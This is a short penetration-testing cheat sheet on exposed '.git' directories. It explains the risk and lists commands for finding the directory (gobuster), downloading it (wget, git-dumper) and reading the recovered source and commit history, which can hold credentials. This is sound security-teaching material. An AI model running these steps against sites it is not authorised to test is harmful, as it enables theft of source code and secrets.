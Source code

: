 # 🐈‍⬛ Git Exposure

## Theory

**Git** is a widely used code versioning tool for application development. It allows developers to always keep an up-to-date copy of the code and to have greater control over changes made.

The danger occurs when the application leaves the “.git” directory, which is in the system root, exposed.\
By carelessness, an application that uses Git for versioning can expose the “.git” directory.

This directory of source code can contain sensitive information such as API keys, developer comments, AWS keys, and even the password to a system’s administrative screen and logs of all changes made during development.

***

## Practical

### Finding the exposed .git

```
# gobuster
gobuster dir -u http://10.10.213.12/ -w /usr/share/dirb/wordlists/common.txt

# DotGit Extension

```

### Downloading .git

```
# wget
wget --mirror -I .git <URL>

# git-dumper
bash gitdumper.sh http://target/.git/ <dest-dir>
OR
pip3 install git-dumper
```

### Check status

```
git status
```

### Restore files

```
git checkout -- .
or
git restore .
```

### Read logs

```
git log
```

### Read commits

```
git show <commit id>
```



***

## REFERENCES

* [https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37](https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37)
* [https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75](https://infosecwriteups.com/exposed-git-directory-exploitation-3e30481e8d75)
